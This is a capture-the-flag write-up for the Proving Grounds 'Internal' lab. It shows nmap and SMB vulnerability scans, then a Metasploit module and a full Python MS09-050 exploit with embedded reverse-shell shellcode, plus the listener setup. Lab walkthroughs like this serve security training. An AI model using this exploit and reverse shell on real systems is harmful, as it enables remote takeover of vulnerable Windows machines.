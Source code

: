 ```yaml
---
title: "Proving grounds Practice: Internal"
layout: post
date: 2023-08-28 04:00
categories: writeup
---
```


Proving grounds Practice - Internal CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE    VERSION
53/tcp    open  tcpwrapped
135/tcp   open  tcpwrapped
139/tcp   open  tcpwrapped
445/tcp   open  tcpwrapped
3389/tcp  open  tcpwrapped
5357/tcp  open  tcpwrapped
49152/tcp open  tcpwrapped
49153/tcp open  tcpwrapped
49154/tcp open  tcpwrapped
49155/tcp open  tcpwrapped
49156/tcp open  tcpwrapped
49157/tcp open  tcpwrapped
49158/tcp open  tcpwrapped
```

## SMB vulnerability scan

```sh
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
**Exploit DB**

![img](/assets/images/CTF/Proving_Grounds/Internal/exploitdb.png)

## Exploit using metasploit

```sh
msfconsole
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS <target-ip>
set LHOST <local-ip>
run
```

## Exploit without metasploit

[Microsoft Windows - 'srv2.sys' SMB Code Execution (Python) (MS09-050)](https://www.exploit-db.com/exploits/40280).

[Modified working exploit](https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py).

**Create reverse shell payload**

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.153 LPORT=4444 EXITFUNC=thread -f c
```

Add the generated shell code as below in the python file.

```py
# EDB-Note: Source ~ https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py

#!/usr/bin/python
#This module depends on the linux command line program smbclient. 
#I can't find a python smb library for smb login. If you can find one, you can replace that part of the code with the smb login function in python.
#The idea is that after the evil payload is injected by the first packet, it need to be trigger by an authentication event. Whether the authentication successes or not does not matter.
import tempfile
import sys
import subprocess
from socket import socket
from time import sleep
from smb.SMBConnection import SMBConnection


try:

    target = sys.argv[1]
except IndexError:
    print '\nUsage: %s <target ip>\n' % sys.argv[0]
    print 'Example: MS36299.py 192.168.1.1 1\n'
    sys.exit(-1)

# msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.153 LPORT=4444 EXITFUNC=thread -f c
# use exploit/multi/handler
# set payload windows/shell/reverse_tcp
# set EXITFUNC=thread 
# config lhost and lport then run

shell = ("\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x8b"
"\x48\x18\x50\x01\xd3\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2d\x99\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xe0\x1d\x2a\x0a\x68"
"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

host = target, 445

buff ="\x00\x00\x03\x9e\xff\x53\x4d\x42"
buff+="\x72\x00\x00\x00\x00\x18\x53\xc8"
buff+="\x17\x02" #high process ID
buff+="\x00\xe9\x58\x01\x00\x00"
buff+="\x00\x00\x00\x00\x00\x00\x00\x00"
buff+="\x00\x00\xfe\xda\x00\x7b\x03\x02"
buff+="\x04\x0d\xdf\xff"*25
buff+="\x00\x02\x53\x4d"
buff+="\x42\x20\x32\x2e\x30\x30\x32\x00"
buff+="\x00\x00\x00\x00"*37
buff+="\xff\xff\xff\xff"*2
buff+="\x42\x42\x42\x42"*7
buff+="\xb4\xff\xff\x3f" #magic index
buff+="\x41\x41\x41\x41"*6
buff+="\x09\x0d\xd0\xff" #return address

#stager_sysenter_hook from metasploit

buff+="\xfc\xfa\xeb\x1e\x5e\x68\x76\x01"
buff+="\x00\x00\x59\x0f\x32\x89\x46\x5d"
buff+="\x8b\x7e\x61\x89\xf8\x0f\x30\xb9"
buff+="\x16\x02\x00\x00\xf3\xa4\xfb\xf4"
buff+="\xeb\xfd\xe8\xdd\xff\xff\xff\x6a"
buff+="\x00\x9c\x60\xe8\x00\x00\x00\x00"
buff+="\x58\x8b\x58\x54\x89\x5c\x24\x24"
buff+="\x81\xf9\xde\xc0\xad\xde\x75\x10"
buff+="\x68\x76\x01\x00\x00\x59\x89\xd8"
buff+="\x31\xd2\x0f\x30\x31\xc0\xeb\x31"
buff+="\x8b\x32\x0f\xb6\x1e\x66\x81\xfb"
buff+="\xc3\x00\x75\x25\x8b\x58\x5c\x8d"
buff+="\x5b\x69\x89\x1a\xb8\x01\x00\x00"
buff+="\x80\x0f\xa2\x81\xe2\x00\x00\x10"
buff+="\x00\x74\x0e\xba\x00\xff\x3f\xc0"
buff+="\x83\xc2\x04\x81\x22\xff\xff\xff"
buff+="\x7f\x61\x9d\xc3\xff\xff\xff\xff"
buff+="\x00\x04\xdf\xff\x00\x04\xfe\x7f"
buff+="\x60\x6a\x30\x58\x99\x64\x8b\x18"
buff+="\x39\x53\x0c\x74\x2b\x8b\x43\x10"
buff+="\x8b\x40\x3c\x83\xc0\x28\x8b\x08"
buff+="\x03\x48\x03\x81\xf9\x6c\x61\x73"
buff+="\x73\x75\x15\xe8\x07\x00\x00\x00"
buff+="\xe8\x0d\x00\x00\x00\xeb\x09\xb9"
buff+="\xde\xc0\xad\xde\x89\xe2\x0f\x34"
buff+="\x61\xc3\x81\xc4\x54\xf2\xff\xff"

buff+=shell

s = socket()
s.connect(host)
s.send(buff)
s.close() 
#Trigger the above injected code via authenticated process.
subprocess.call("echo '1223456' | rpcclient -U Administrator %s"%(target), shell=True)
```

### Troubleshoot smb.SMBConnection

The code is writtent in python2 and there will be an exception due to the `pysmb` module not present in the system. In order to resolve the issue follow the below steps:

- Download manually from [https://miketeo.net/blog/projects/pysmb](https://miketeo.net/blog/projects/pysmb).
- Use unzip to extract and run the `setup.py` file using python2.
- Post that install the dependencies if any is missing in your system based on the exception thrown while running the file.
- Ensure the dependency packages are being installed using pip2.

**Run msfconsole**

Run msfconsole and configure the below options.

```sh
use exploit/multi/handler
set payload windows/shell/reverse_tcp #payload important it should be same as our shellcode payload
set EXITFUNC thread
set LHOST <IP>
set LPORT <PORT>
run
```

Run the exploit code along with the target IP and wait for few seconds.

![img](/assets/images/CTF/Proving_Grounds/Internal/shell.png)

Reverse shell obtained.

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).